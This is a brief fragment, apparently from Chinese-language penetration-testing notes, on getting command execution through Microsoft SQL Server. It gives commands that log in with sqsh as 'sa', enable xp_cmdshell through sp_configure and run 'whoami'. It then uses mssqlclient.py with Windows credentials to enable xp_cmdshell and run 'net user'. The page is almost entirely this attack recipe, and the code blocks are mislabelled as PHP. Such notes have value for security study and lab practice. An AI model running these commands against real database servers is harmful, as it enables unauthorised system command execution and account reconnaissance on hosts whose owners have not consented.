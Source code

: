 ```php
sqsh -S 192.168.3.130 -U sa -P "admin"
EXEC sp_configure 'show advanced options', 1;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
go
xp_cmdshell 'whoami';
go
```

![image.png](assets/1706232584-9e596b15ce383ade5d6bcff4110a7431.png)

### mssqlcliient.py 连接 mssql

```php
python3 mssqlclient.py administrator:123456@192.168.3.129 -port 1433 -windows-auth
enable_xp_cmdshell
xp_cmdshell "net user"
```

